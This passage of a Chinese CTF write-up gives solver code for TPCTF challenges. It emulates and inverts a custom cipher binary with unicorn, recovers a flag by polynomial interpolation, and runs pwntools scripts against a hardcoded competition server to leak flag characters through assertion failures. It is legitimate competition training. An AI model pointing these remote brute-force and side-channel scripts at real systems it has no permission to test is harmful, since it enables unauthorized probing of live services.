  0xBC, 0xB6, 0xDA, 0x21, 0x10, 0xFF, 0xF3, 0xD2, 0xCD, 0x0C, 
  0x13, 0xEC, 0x5F, 0x97, 0x44, 0x17, 0xC4, 0xA7, 0x7E, 0x3D, 
  0x64, 0x5D, 0x19, 0x73, 0x60, 0x81, 0x4F, 0xDC, 0x22, 0x2A, 
  0x90, 0x88, 0x46, 0xEE, 0xB8, 0x14, 0xDE, 0x5E, 0x0B, 0xDB, 
  0xE0, 0x32, 0x3A, 0x0A, 0x49, 0x06, 0x24, 0x5C, 0xC2, 0xD3, 
  0xAC, 0x62, 0x91, 0x95, 0xE4, 0x79, 0xE7, 0xC8, 0x37, 0x6D, 
  0x8D, 0xD5, 0x4E, 0xA9, 0x6C, 0x56, 0xF4, 0xEA, 0x65, 0x7A, 
  0xAE, 0x08, 0xBA, 0x78, 0x25, 0x2E, 0x1C, 0xA6, 0xB4, 0xC6, 
  0xE8, 0xDD, 0x74, 0x1F, 0x4B, 0xBD, 0x8B, 0x8A, 0x70, 0x3E, 
  0xB5, 0x66, 0x48, 0x03, 0xF6, 0x0E, 0x61, 0x35, 0x57, 0xB9, 
  0x86, 0xC1, 0x1D, 0x9E, 0xE1, 0xF8, 0x98, 0x11, 0x69, 0xD9, 
  0x8E, 0x94, 0x9B, 0x1E, 0x87, 0xE9, 0xCE, 0x55, 0x28, 0xDF, 
  0x8C, 0xA1, 0x89, 0x0D, 0xBF, 0xE6, 0x42, 0x68, 0x41, 0x99, 
  0x2D, 0x0F, 0xB0, 0x54, 0xBB, 0x16]
# print(hex(sbox0.index(0xf2)))

def enc_packup(block : list[int])->int:
    result = 0
    for i in range(len(block)):
        result |= block[i] << i
    return 0xff - result

def enc_unpack(num : int) -> list[int]:
    result = []
    for i in range(8):
        result.append(1 - ((num >> i) & 1))
    return result

def enc_part2(data : list[int]):
    buf = data.copy()
    for round in range(4):
        offset_block = (64 + 64 * round) % 256
        offset_exv = (0 + 64 * round) % 256

        block = buf[offset_block : offset_block+8]
        for i in range(32):
            for j in range(8):
                offset = ((j+1) & 7) * 8
                exv = buf[offset_exv+j*8 : offset_exv+j*8+8]
                res = mix1_sp_ex(block, exv)
                # print(res)
                v = enc_packup(res)
                v = sbox0[v]
                block = enc_unpack(v)
                # print(block)
                exv = buf[offset_block+offset : offset_block+offset+8]
                res = mix1_sp_ex(block, exv)
                
                for k in range(8):
                    buf[offset_block+offset+k] = res[k-1]
                    block[k] = res[k-1]

            #     print(block)
            # print()
    return buf

# res = enc_part2(ref_data1)
# print(res)
# for i in range(len(res)):
#     print(res[i], end=', ')
#     if (i % 8) == 7:
#         print()
```

之后对这个 enc_part2 函数逆向就能解决第二部分了

第一部分和第三部分应该可以直接爆破，跑出输入输出的映射关系或者直接 unicorn

第三部分加密以 16 个 bits 为一组，第一部分以 8bits 为一组，这里采用 unicorn 爆破

```python
import unicorn
# import unicorn.arm64_const as arm64
import unicorn.x86_const as x86

def mapelf(baseaddr : int, filename : str, uc : unicorn.Uc = None) -> unicorn.Uc:
    if uc is None:
        uc = unicorn.Uc(unicorn.UC_ARCH_X86, unicorn.UC_MODE_64)
    
    data = open(filename, 'rb').read()
    # size = ((len(data) + 0xfff) // 0x1000) * 0x1000
    size = 0x8000
    uc.mem_map(baseaddr, size)
    uc.mem_write(baseaddr, data)
    return uc

def setup_stack(uc : unicorn.Uc):
    stackbase = 0x60000000
    stacksize = 0x10000000

    uc.mem_map(stackbase, stacksize)
    sp = stackbase + stacksize - 0x10
    uc.reg_write(x86.UC_X86_REG_RSP, sp)
    uc.reg_write(x86.UC_X86_REG_RBP, sp)

def setup_init_mem(uc : unicorn.Uc):
    uc.mem_write(0x7478, b'\0\0\0\x80')
    uc.mem_write(0x7474, b'\0\0\0\0')

def _hook_printf(uc : unicorn.Uc, addr, size, user_data):
    sp = uc.reg_read(x86.UC_X86_REG_RSP)
    # your code here
    print('[debug] hook at 0x%x' % addr)
    p = uc.reg_read(x86.UC_X86_REG_RSI)
    print(uc.mem_read(p, 0x20))
    # your code end
    ret = int.from_bytes(bytes(uc.mem_read(sp + 0, 8)), 'little')
    uc.reg_write(x86.UC_X86_REG_RSP, uc.reg_read(x86.UC_X86_REG_RSP) + 8)   #pop
    uc.reg_write(x86.UC_X86_REG_RIP, ret)

def _hook_scanf(uc : unicorn.Uc, addr, size, user_data):
    sp = uc.reg_read(x86.UC_X86_REG_RSP)
    # your code here
    p = uc.reg_read(x86.UC_X86_REG_RSI)
    # uc.mem_write(p, b'TPCTF{12345678901234567890123456789012}')
    uc.mem_write(p, user_data)
    # your code end
    ret = int.from_bytes(bytes(uc.mem_read(sp + 0, 8)), 'little')
    uc.reg_write(x86.UC_X86_REG_RSP, uc.reg_read(x86.UC_X86_REG_RSP) + 8)   #pop
    uc.reg_write(x86.UC_X86_REG_RIP, ret)

def _hook_strlen(uc : unicorn.Uc, addr, size, user_data):
    sp = uc.reg_read(x86.UC_X86_REG_RSP)
    # your code here
    p = uc.reg_read(x86.UC_X86_REG_RSI)
    a = uc.mem_read(p, 0x40).find(b'\0')
    uc.reg_write(x86.UC_X86_REG_RAX, a)
    # your code end
    ret = int.from_bytes(bytes(uc.mem_read(sp + 0, 8)), 'little')
    uc.reg_write(x86.UC_X86_REG_RSP, uc.reg_read(x86.UC_X86_REG_RSP) + 8)   #pop
    uc.reg_write(x86.UC_X86_REG_RIP, ret)

def setup_hook(uc : unicorn.Uc, flag=None):
    if flag is None:
        flag = b'TPCTF{12345678901234567890123456789012}\0'
    uc.hook_add(unicorn.UC_HOOK_CODE, _hook_printf, begin=0x10d0, end=0x10d0)   # printf
    uc.hook_add(unicorn.UC_HOOK_CODE, _hook_scanf, begin=0x10E0, end=0x10E0, user_data=flag) # scanf
    uc.hook_add(unicorn.UC_HOOK_CODE, _hook_strlen, begin=0x10B0, end=0x10B0)   # strlen

#==================
def crack_part1():
    result = {}
    for round in range(1, 4, 1):
        print('round', round)
        flag = [x for x in range(round*32, round*32+32, 1)]
        flag = b'TPCTF{' + bytes(flag) + b'}\0'

        fn = './funky'

        uc = mapelf(0, fn)
        setup_stack(uc)
        setup_init_mem(uc)
        setup_hook(uc, flag)

        try:
            uc.emu_start(0x1100, 0x1233)
            # uc.emu_start(0x1100, 0x122e)
        except Exception as e:
            print('stopped with ip:0x%x' % uc.reg_read(x86.UC_X86_REG_RIP))
            raise e
        print('done with ip:0x%x' % uc.reg_read(x86.UC_X86_REG_RIP))

        raw = uc.mem_read(0x7040, 256*4)
        # open('./uc_dump.bin', 'wb').write(raw)
        for i in range(32):
            result[round*32 + i] = raw[i*32:i*32+32]
    return result

def enc_packup(block : list[int])->int:
    result = 0
    for i in range(len(block)):
        result |= block[i] << i
    return 0xff - result

def enc_unpack(num : int) -> list[int]:
    result = []
    for i in range(8):
        result.append(1 - ((num >> i) & 1))
    return result

def b2v(b : bytes):
    result = []
    for i in range(8):
        result.append(0 if b[i*4+3] == 0 else 1)
    return result

def v2b(v : list[int]):
    result = []
    for i in range(8):
        result.append(b'\0\0\0\0' if v[i] == 0 else b'\0\0\0\x80')
    return b''.join(result)

ans = [0x69DA6110F30513BE, 0xB564B4894A8B7B39, 0xD94585C18415AE32, 0xF68893F67CB61DA9]
ans_b = []
for v in ans:
    ans_b.extend(int.to_bytes(v, 8, 'little'))

ans_u = [v2b(enc_unpack(x)) for x in ans_b]
print(ans_u[:8])

def crack_part2():
    b_zero = b'\0\0\0\0'
    b_one = b'\0\0\0\x80'
    result = []
    f_out=  open('r3_crack2.bin', 'wb')
    f_out2 = open('r3_crack2_n.bin', 'wb')

    fn = './funky'

    uc = mapelf(0, fn)
    setup_stack(uc)
    setup_init_mem(uc)
    setup_hook(uc)
    uc.emu_start(0x1100, 0x1238)
    # raw = uc.mem_read(0x7040, 256*4)

    for round in range(65536):
        if round % 1024 == 0:
            print('progress %d/64' % (round // 1024))
        payload = []
        t1 = round % 256
        t2 = round >> 8
        payload.extend([b_one if x else b_zero for x in enc_unpack(t1)])
        payload.extend([b_one if x else b_zero for x in enc_unpack(t2)])
        payload = b''.join(payload)
        payload.ljust(0x400, b'\0')
        #===============

        uc.mem_write(0x7040, payload)
        uc.emu_start(0x1238, 0x123d)

        raw = uc.mem_read(0x7040, 0x40)
        # open('./uc_dump2.bin', 'wb').write(raw)
        # f_out.write(raw)

        ck1 = enc_packup(b2v(raw[:0x20]))
        ck2 = enc_packup(b2v(raw[0x20:]))

        f_out2.write(bytes([t1, t2, ck1, ck2]))

        # print('done with ip:0x%x' % uc.reg_read(x86.UC_X86_REG_RIP))
    
    f_out.close()
    f_out2.close()

if __name__ == '__main__':
    def test_run():
        fn = './funky'

        uc = mapelf(0, fn)
        setup_stack(uc)
        setup_init_mem(uc)
        setup_hook(uc)

        try:
            uc.emu_start(0x1100, 0x1238)

            uc.mem_write(0x7040, open('crack3_test.bin', 'rb').read())

            raw = uc.mem_read(0x7040, 256*4)
            open('./uc_dump1.bin', 'wb').write(raw)

            uc.emu_start(0x1238, 0x123d)

            # uc.mem_write(0x7040, bytes(raw))
            # uc.emu_start(0x1238, 0x123d)

            raw = uc.mem_read(0x7040, 256*4)
            print('packup', enc_packup(b2v(raw[:0x20])))
            open('./uc_dump2.bin', 'wb').write(raw)

            # uc.emu_start(0x123d, 0x132a)

        except Exception as e:
            print('stopped with ip:0x%x' % uc.reg_read(x86.UC_X86_REG_RIP))
            raise e
        print('done with ip:0x%x' % uc.reg_read(x86.UC_X86_REG_RIP))

        # rax = uc.reg_read(x86.UC_X86_REG_RAX)
        # print('res1', uc.mem_read(rax-0x20, 0x20))
        #01110011

        raw = uc.mem_read(0x7040, 256*4)
        open('./uc_dump.bin', 'wb').write(raw)

    # res = crack_part1()
    # print(res)

    test_run()

    # crack_part2()
```

得到数据之后破解第三部分

```python
def enc_packup(block : list[int])->int:
    result = 0
    for i in range(len(block)):
        result |= block[i] << i
    return 0xff - result

def enc_unpack(num : int) -> list[int]:
    result = []
    for i in range(8):
        result.append(1 - ((num >> i) & 1))
    return result

def b2v(b : bytes):
    result = []
    for i in range(8):
        result.append(0 if b[i*4+3] == 0 else 1)
    return result

def v2b(v : list[int]):
    result = []
    for i in range(8):
        result.append(b'\0\0\0\0' if v[i] == 0 else b'\0\0\0\x80')
    return b''.join(result)

ans = [0x69DA6110F30513BE, 0xB564B4894A8B7B39, 0xD94585C18415AE32, 0xF68893F67CB61DA9]
ans_b = []
for v in ans:
    ans_b.extend(int.to_bytes(v, 8, 'little'))

def printhex(v):
    for i in v:
        print(hex(i), end=', ')
    print()

ans_u = [v2b(enc_unpack(x)) for x in ans_b]
# print(ans_u[:8])
ans_pack = [ans_b[x] + (ans_b[x + 1] << 8) for x in range(0, len(ans_u), 2)]
print('ans_pack')
printhex(ans_pack)

def crack3():
    data = open('r3_crack2_n.bin', 'rb').read()

    table = []

    for i in range(65536):
        table.append(int.from_bytes(data[i*4+2:i*4+4], 'little'))

    # printhex(table[:64])

    res = []
    for v in ans_pack:
        res.append(table.index(v))
    print('res')
    printhex(res)

    res_sp = []
    for v in res:
        res_sp.append(v & 0xff)
        res_sp.append(v >> 8)

    printhex(res_sp)

    res_bytes = []
    for v in res_sp:
        res_bytes.append(v2b(enc_unpack(v)))
    res_bytes = b''.join(res_bytes)

    open('crack3_test.bin', 'wb').write(res_bytes)

crack3()
```

之后第二部分和第一部分

```python
data = open('crack3_test.bin', 'rb').read()

sbox0 = [  0x63, 0x7C, 0x77, 0x7B, 0xF2, 0x6B, 0x6F, 0xC5, 0x30, 0x01, 
  0x67, 0x2B, 0xFE, 0xD7, 0xAB, 0x76, 0xCA, 0x82, 0xC9, 0x7D, 
  0xFA, 0x59, 0x47, 0xF0, 0xAD, 0xD4, 0xA2, 0xAF, 0x9C, 0xA4, 
  0x72, 0xC0, 0xB7, 0xFD, 0x93, 0x26, 0x36, 0x3F, 0xF7, 0xCC, 
  0x34, 0xA5, 0xE5, 0xF1, 0x71, 0xD8, 0x31, 0x15, 0x04, 0xC7, 
  0x23, 0xC3, 0x18, 0x96, 0x05, 0x9A, 0x07, 0x12, 0x80, 0xE2, 
  0xEB, 0x27, 0xB2, 0x75, 0x09, 0x83, 0x2C, 0x1A, 0x1B, 0x6E, 
  0x5A, 0xA0, 0x52, 0x3B, 0xD6, 0xB3, 0x29, 0xE3, 0x2F, 0x84, 
  0x53, 0xD1, 0x00, 0xED, 0x20, 0xFC, 0xB1, 0x5B, 0x6A, 0xCB, 
  0xBE, 0x39, 0x4A, 0x4C, 0x58, 0xCF, 0xD0, 0xEF, 0xAA, 0xFB, 
  0x43, 0x4D, 0x33, 0x85, 0x45, 0xF9, 0x02, 0x7F, 0x50, 0x3C, 
  0x9F, 0xA8, 0x51, 0xA3, 0x40, 0x8F, 0x92, 0x9D, 0x38, 0xF5, 
  0xBC, 0xB6, 0xDA, 0x21, 0x10, 0xFF, 0xF3, 0xD2, 0xCD, 0x0C, 
  0x13, 0xEC, 0x5F, 0x97, 0x44, 0x17, 0xC4, 0xA7, 0x7E, 0x3D, 
  0x64, 0x5D, 0x19, 0x73, 0x60, 0x81, 0x4F, 0xDC, 0x22, 0x2A, 
  0x90, 0x88, 0x46, 0xEE, 0xB8, 0x14, 0xDE, 0x5E, 0x0B, 0xDB, 
  0xE0, 0x32, 0x3A, 0x0A, 0x49, 0x06, 0x24, 0x5C, 0xC2, 0xD3, 
  0xAC, 0x62, 0x91, 0x95, 0xE4, 0x79, 0xE7, 0xC8, 0x37, 0x6D, 
  0x8D, 0xD5, 0x4E, 0xA9, 0x6C, 0x56, 0xF4, 0xEA, 0x65, 0x7A, 
  0xAE, 0x08, 0xBA, 0x78, 0x25, 0x2E, 0x1C, 0xA6, 0xB4, 0xC6, 
  0xE8, 0xDD, 0x74, 0x1F, 0x4B, 0xBD, 0x8B, 0x8A, 0x70, 0x3E, 
  0xB5, 0x66, 0x48, 0x03, 0xF6, 0x0E, 0x61, 0x35, 0x57, 0xB9, 
  0x86, 0xC1, 0x1D, 0x9E, 0xE1, 0xF8, 0x98, 0x11, 0x69, 0xD9, 
  0x8E, 0x94, 0x9B, 0x1E, 0x87, 0xE9, 0xCE, 0x55, 0x28, 0xDF, 
  0x8C, 0xA1, 0x89, 0x0D, 0xBF, 0xE6, 0x42, 0x68, 0x41, 0x99, 
  0x2D, 0x0F, 0xB0, 0x54, 0xBB, 0x16]

def enc_packup(block : list[int])->int:
    result = 0
    for i in range(len(block)):
        result |= block[i] << i
    return 0xff - result

def enc_unpack(num : int) -> list[int]:
    result = []
    for i in range(8):
        result.append(1 - ((num >> i) & 1))
    return result

def b2v(b : bytes):
    result = []
    for i in range(8):
        result.append(0 if b[i*4+3] == 0 else 1)
    return result

def v2b(v : list[int]):
    result = []
    for i in range(8):
        result.append(b'\0\0\0\0' if v[i] == 0 else b'\0\0\0\x80')
    return b''.join(result)

def vec_from_bytes_data(data : bytes):
    result = []
    for i in range(0, len(data), 0x20):
        block = data[i:i+0x20]
        v = b2v(block)
        result.extend(v)
    return result

def vec_to_bytes(data : list[int]):
    result = []
    for v in data:
        result.append(b'\0\0\0\0' if v == 0 else b'\0\0\0\x80')
    return b''.join(result)

def mix1_sp_ex(block, exv):
    t = 1
    res = []
    for i in range(len(block)):
        a = block[i]
        b = exv[i]
        res.append(a ^ b ^ t)
        t = ((not a) and b and t) or (a and b) or (a and t)
        t = 1 if t else 0
    return res

def unmix_exv(block, exv_new):
    t = 1
    res = []
    for i in range(len(block)):
        a = block[i]
        bn = exv_new[i]
        b = a ^ bn ^ t
        res.append(b)
        t = ((not a) and b and t) or (a and b) or (a and t)
        t = 1 if t else 0
    return res

def dec_part2(data : list[int]) -> list[int]:
    buf = data.copy()

    f_log = open('dec.log', 'w')

    for round in range(3, -1, -1):
        offset_block = (64 + 64 * round) % 256
        offset_exv = (0 + 64 * round) % 256

        block = buf[offset_block : offset_block+8]
        for i in range(31, -1, -1):

            for j in range(7, -1, -1):
                offset = ((j+1) & 7) * 8
                t_a = buf[offset_block+j*8 : offset_block+j*8+8]
                # for k in range(8):
                #     block[k] = t_a[(k + 1) % 8]
                block = t_a
                exv = buf[offset_exv+j*8 : offset_exv+j*8+8]
                res = mix1_sp_ex(block, exv)
                if round == 0 and i == 0:
                    f_log.write('\n%d-block' % j)
                    f_log.write(str(block))
                    f_log.write('\n%d-exv' % j)
                    f_log.write(str(exv))
                    f_log.write('\n%d-mres' % j)
                    f_log.write(str(res))

                v = enc_packup(res)
                v = sbox0[v]
                block = enc_unpack(v)
                if round == 0 and i == 0:
                    f_log.write('\n%d-sb' % j)
                    f_log.write(str(block))

                t_b = buf[offset_block+offset : offset_block+offset+8]
                for k in range(8):
                    exv[k] = t_b[(k + 1) % 8]
                res = unmix_exv(block, exv)

                buf[offset_block+offset : offset_block+offset+8] = res
                if round == 0 and i == 0:
                    f_log.write('\n%d' % j)
                    f_log.write(str(buf[64:128]))
            # if round == 0:
            #     f_log.write('\n%d' % i)
            #     f_log.write(str(buf[64:128]))
    return buf

dic_crack1 = {32: [1, 0, 1, 0, 1, 1, 0, 1], 33: [1, 0, 0, 0, 0, 0, 0, 1], 34: [1, 0, 1, 1, 1, 0, 1, 1], 35: [1, 0, 0, 1, 0, 1, 1, 1], 36: [1, 0, 1, 0, 0, 1, 1, 0], 37: [1, 0, 0, 0, 1, 0, 1, 0], 38: [1, 0, 1, 1, 0, 0, 0, 0], 39: [1, 0, 0, 1, 1, 1, 0, 0], 40: [0, 1, 1, 0, 1, 1, 1, 0], 41: [0, 1, 0, 0, 0, 0, 1, 0], 42: [0, 1, 1, 1, 1, 0, 0, 0], 43: [0, 1, 0, 1, 0, 1, 0, 0], 44: [0, 1, 1, 0, 0, 1, 0, 1], 45: [0, 1, 0, 0, 1, 0, 0, 1], 46: [0, 1, 1, 1, 0, 0, 1, 1], 47: [0, 1, 0, 1, 1, 1, 1, 1], 48: [0, 0, 0, 0, 1, 0, 1, 0], 49: [0, 0, 1, 0, 0, 1, 1, 0], 50: [0, 0, 0, 1, 1, 1, 0, 0], 51: [0, 0, 1, 1, 0, 0, 0, 0], 52: [0, 0, 0, 0, 0, 0, 0, 1], 53: [0, 0, 1, 0, 1, 1, 0, 1], 54: [0, 0, 0, 1, 0, 1, 1, 1], 55: [0, 0, 1, 1, 1, 0, 1, 1], 56: [1, 1, 0, 0, 1, 0, 0, 1], 57: [1, 1, 1, 0, 0, 1, 0, 1], 58: [1, 1, 0, 1, 1, 1, 1, 1], 59: [1, 1, 1, 1, 0, 0, 1, 1], 60: [1, 1, 0, 0, 0, 0, 1, 0], 61: [1, 1, 1, 0, 1, 1, 1, 0], 62: [1, 1, 0, 1, 0, 1, 0, 0], 63: [1, 1, 1, 1, 1, 0, 0, 0], 64: [1, 0, 1, 1, 0, 1, 0, 0], 65: [1, 0, 0, 1, 1, 0, 0, 0], 66: [1, 0, 1, 0, 0, 0, 1, 0], 67: [1, 0, 0, 0, 1, 1, 1, 0], 68: [1, 0, 1, 1, 1, 1, 1, 1], 69: [1, 0, 0, 1, 0, 0, 1, 1], 70: [1, 0, 1, 0, 1, 0, 0, 1], 71: [1, 0, 0, 0, 0, 1, 0, 1], 72: [0, 1, 1, 1, 0, 1, 1, 1], 73: [0, 1, 0, 1, 1, 0, 1, 1], 74: [0, 1, 1, 0, 0, 0, 0, 1], 75: [0, 1, 0, 0, 1, 1, 0, 1], 76: [0, 1, 1, 1, 1, 1, 0, 0], 77: [0, 1, 0, 1, 0, 0, 0, 0], 78: [0, 1, 1, 0, 1, 0, 1, 0], 79: [0, 1, 0, 0, 0, 1, 1, 0], 80: [0, 0, 0, 1, 0, 0, 1, 1], 81: [0, 0, 1, 1, 1, 1, 1, 1], 82: [0, 0, 0, 0, 0, 1, 0, 1], 83: [0, 0, 1, 0, 1, 0, 0, 1], 84: [0, 0, 0, 1, 1, 0, 0, 0], 85: [0, 0, 1, 1, 0, 1, 0, 0], 86: [0, 0, 0, 0, 1, 1, 1, 0], 87: [0, 0, 1, 0, 0, 0, 1, 0], 88: [1, 1, 0, 1, 0, 0, 0, 0], 89: [1, 1, 1, 1, 1, 1, 0, 0], 90: [1, 1, 0, 0, 0, 1, 1, 0], 91: [1, 1, 1, 0, 1, 0, 1, 0], 92: [1, 1, 0, 1, 1, 0, 1, 1], 93: [1, 1, 1, 1, 0, 1, 1, 1], 94: [1, 1, 0, 0, 1, 1, 0, 1], 95: [1, 1, 1, 0, 0, 0, 0, 1], 96: [0, 0, 1, 0, 0, 0, 0, 1], 97: [0, 0, 0, 0, 1, 1, 0, 1], 98: [0, 0, 1, 1, 0, 1, 1, 1], 99: [0, 0, 0, 1, 1, 0, 1, 1], 100: [0, 0, 1, 0, 1, 0, 1, 0], 101: [0, 0, 0, 0, 0, 1, 1, 0], 102: [0, 0, 1, 1, 1, 1, 0, 0], 103: [0, 0, 0, 1, 0, 0, 0, 0], 104: [1, 1, 1, 0, 0, 0, 1, 0], 105: [1, 1, 0, 0, 1, 1, 1, 0], 106: [1, 1, 1, 1, 0, 1, 0, 0], 107: [1, 1, 0, 1, 1, 0, 0, 0], 108: [1, 1, 1, 0, 1, 0, 0, 1], 109: [1, 1, 0, 0, 0, 1, 0, 1], 110: [1, 1, 1, 1, 1, 1, 1, 1], 111: [1, 1, 0, 1, 0, 0, 1, 1], 112: [1, 0, 0, 0, 0, 1, 1, 0], 113: [1, 0, 1, 0, 1, 0, 1, 0], 114: [1, 0, 0, 1, 0, 0, 0, 0], 115: [1, 0, 1, 1, 1, 1, 0, 0], 116: [1, 0, 0, 0, 1, 1, 0, 1], 117: [1, 0, 1, 0, 0, 0, 0, 1], 118: [1, 0, 0, 1, 1, 0, 1, 1], 119: [1, 0, 1, 1, 0, 1, 1, 1], 120: [0, 1, 0, 0, 0, 1, 0, 1], 121: [0, 1, 1, 0, 1, 0, 0, 1], 122: [0, 1, 0, 1, 0, 0, 1, 1], 123: [0, 1, 1, 1, 1, 1, 1, 1], 124: [0, 1, 0, 0, 1, 1, 1, 0], 125: [0, 1, 1, 0, 0, 0, 1, 0], 126: [0, 1, 0, 1, 1, 0, 0, 0], 127: [0, 1, 1, 1, 0, 1, 0, 0]}

def search_crack1(v):
    for k in dic_crack1.keys():
        if dic_crack1[k] == v:
            return k
    return -1

res = vec_from_bytes_data(data)
print(res)
res = dec_part2(res)
print(res)

b = vec_to_bytes(res)
open('r3_rev2_test.bin', 'wb').write(b)

flag = []
for i in range(32):
    v = res[i*8:i*8+8]
    fv = search_crack1(v)
    flag.append(fv)
print(flag)
print(bytes(flag))
```

# Crypto

## Blurred memory

根据题目所给条件，我们可以任意构造



令 f=0 的解为除了 1,2,3,4 之外的所有元素(因为多项式的度最多是 253)，那么如果整个构造式结果不等于 0，就说明其中有解，反复迭代，把所有的解都输出之后再还原 flag。

```python
output = [253,125, 31, 116, 106, 193, 7, 38, 194, 186, 33, 180, 189, 53, 126, 134, 237, 123, 65, 179, 196, 99, 74, 101, 153, 84, 74, 233, 5, 105, 32, 75, 168, 161, 2, 147, 18, 68, 68, 162, 21, 94, 194, 249, 179, 24, 60, 71, 12, 40, 198, 79, 92, 44, 72, 189, 236, 244, 151, 56, 93, 195, 121, 211, 26, 73, 240, 76, 70, 133, 186, 165, 48, 31, 39, 3, 219, 96, 14, 166, 139, 24, 206, 93, 250, 79, 246, 256, 199, 198, 131, 34, 192, 173, 35, 0, 171, 160, 151, 118, 24, 10, 100, 93, 19, 101, 15, 190, 74, 10, 117, 4, 41, 135, 45, 107, 155, 152, 95, 222, 214, 174, 139, 117, 211, 224, 120, 219, 250, 1, 110, 225, 196, 105, 96, 52, 231, 59, 70, 95, 56, 58, 248, 171, 16, 251, 165, 54, 4, 211, 60, 210, 158, 45, 96, 105, 116, 30, 239, 96, 37, 175, 254, 157, 26, 151, 141, 43, 110, 227, 199, 223, 135, 162, 112, 4, 45, 66, 228, 162, 238, 165, 158, 27, 18, 76, 36, 237, 107, 84, 57, 233, 96, 72, 6, 114, 44, 119, 174, 59, 82, 202, 26, 216, 35, 55, 159, 113, 98, 4, 74, 2, 128, 34, 180, 191, 8, 101, 169, 157, 120, 254, 158, 97, 227, 79, 151, 167, 64, 195, 42, 250, 207, 213, 238, 199, 111, 149, 18, 194, 240, 53, 130, 3, 188, 41, 100, 255, 158, 21, 189, 19, 214, 127]

F = GF(p)
k = 253
num = 0
print(len(output))
l = [0 for i in range(22)]
R.<x> = PolynomialRing(F)
f = prod([x-i for i in range(1,254)])
#print(factor(f))
for i in range(1,254):
    f //= x-i
    f *= x-i+1
    #print(factor(f))

    lf = list(f)
    #print(len(lf))
    if (sum(lf[i]*output[i] for i in range(254))) != 0:
        l[(sum(lf[i]*output[i] for i in range(254))/f(i))-1] = chr(i)

print(''.join(l))
```

## sort(teaser)

首先盯一下 parse 函数，找到 command 构造的规则。

```python
def parse_command(cmdstr):
    cmdstr=re.sub("\s","",cmdstr)
    m=re.match("^([A-Z])=([A-Z]|-?\d+)$",cmdstr)
    if m:
        return Command(m[1],"=",m[2])
    m=re.match("^([A-Z])=([A-Z]|-?\d+)([+\-*/%&|^><]|[><!=]=|<<|>>)([A-Z]|-?\d+)$",cmdstr)
    if m:
        return Command(m[1],m[3],m[2],m[4])
    m=re.match("^([A-Z])=-([A-Z])$",cmdstr)
    if m:
        return Command(m[1],"-",0,m[2])
    raise SyntaxError
```

第一部分去匹配"符号=符号"或者"符号=数字"的格式

第二部分去匹配"A=A*B","A=2*B"的类似格式

第三部分去匹配"A=-B"的格式

```python
class Command:
    def __init__(self, target_var, op, l, r=0):
        self.target_var = target_var
        self.op = op
        self.l = l if l in letters else int(l)
        self.r = r if r in letters else int(r)
    def __str__(self):
        return self.target_var+"="+str(self.l)+((self.op+str(self.r)) if self.op!="=" else "")
    __repr__=__str__
```

三种部分进入 Command 的结果：

"A=A"

"A=A*B"

"A=0-B"

ok 现在我们来看看题目需要我们完成什么。首先我们通过 input_function 函数输入若干条命令，然后把这些操作合成为一条，100 次调用这些命令进行计算。每一次的过程是随机变换 flag_array 的顺序，我们需要通过这些命令做到以下的事情：

令 A 为随机的 flag 排列顺序转化的整数，整体操作后，B 变量的值总是等于 A 变量排列以后的结果。

那么就很显然，我们要完成的步骤就是在 100 次指定形式的运算内把一个字符排列好。已知字符串总字符数小于 32，感觉很难在 100 次运算以内完成排序（无论是&+>> 还是 >>+% 都需要两次操作提取一个字节，剩下 38 次不足以支撑排序算法)

get 了，其实根本不需要去实现一个排序算法，flag 是固定的，而我们可以通过 assert 去泄露信息，想办法利用 B 相同这个特点去泄露某个式子的信息就行，好比 100 次当中，我们通过 A=A%256 取 A 的最后一位，这时候我们可以再次用 B=A!=95 去判断 flag 中是否包括 A 字符，如果存在 A 字符，那么在 100 次泄露中总会有某一次出现 0 的结果，也就导致 assert 判断失败。这样反复操作若干次，我们可以把 flag 中有的字符集合全部筛选出来，这时手动进行排序也就能够完成工作。

```python
from pwn import *
import numpy as np

context.log_level = 'debug'

fl = []
for i in range(32,127):
    p = remote("202.112.238.82", 13371)
    p.recvuntil(b'Enter your function A:\n')
    p.sendline(b'A=A%256')
    p.sendline(f'B=A!={i}'.encode())
    p.sendline(b'EOF')
    a = p.recvline()
    if b'Traceback' in a:
        fl.append(chr(i))
print(fl)
```

```python
['1', 'A', 'C', 'F', 'T', '_', 'c', 'd', 'e', 'g', 'h', 'l', 'n', 'r', 's', 't', '{', '}', 'P', 'a']
```

那么接下来再用同样的手段探寻一下 flag 的长度

```python
from pwn import *
import numpy as np

context.log_level = 'debug'
fl = ['1', 'A', 'C', 'F', 'T', '_', 'c', 'd', 'e', 'g', 'h', 'l', 'n', 'r', 's', 't', '{', '}', 'P', 'a']

for i in range(len(fl),32):
    p = remote("202.112.238.82", 13371)
    p.recvuntil(b'Enter your function A:\n')
    p.sendline(f'B=A>>{8*i}'.encode())
    p.sendline(b'EOF')
    a = p.recvline()
    if b'Traceback' in a:
        print(i)
```

flag 长度为 29。再利用类似的思想探寻一下各个元素的个数

```python
from pwn import *
import numpy as np

context.log_level = 'debug'

fl = ['1', 'A', 'C', 'F', 'T', '_', 'c', 'd', 'e', 'g', 'h', 'l', 'n', 'r', 's', 't', '{', '}', 'P', 'a']
Tf = []

for _ in range(len(fl)):
    for i in range(50):
        p = remote("202.112.238.82", 13371)
        p.recvuntil(b'Enter your function A:\n')
        p.sendline(b'C=A%256')
        p.sendline(b'A=A>>8')
        p.sendline(b'D=A%256')
        p.sendline(b'F=C==D')
        p.sendline(f'G=C=={ord(fl[_])}'.encode())
        p.sendline(f'B=G*F')
        p.sendline(b'EOF')
        a = p.recvline()
        if b'Traceback' in a:
            Tf.append(fl[_])
            break
```

```python
['A', 'T', '_', 'e', 'n', 's']
```

最后再爆破下

```python
from pwn import *
import numpy as np
from Crypto.Util.number import *


fl = ['1', 'A', 'C', 'F', 'T', '_', 'c', 'd', 'e', 'g', 'h', 'l', 'n', 'r', 's', 't', '{', '}', 'P', 'a']
Tf = ['A', 'T', '_', 'e', 'n', 's']

fa = fl+Tf
fa = [ord(i) for i in fa]


for i in range(len(Tf)):
    for j in range(len(Tf)):
        for k in range(len(Tf)):
            fn = fa+[ord(Tf[i])]+[ord(Tf[j])]+[ord(Tf[k])]
            fn = sorted(fn)
            p = remote("202.112.238.82", 13371)
            p.recvuntil(b'Enter your function A:\n')
            p.sendline(f'B={bytes_to_long(bytes(fn))}'.encode())
            p.sendline(b'EOF')
            a = p.recvline()
            print(a)
```

## sort(level 2)

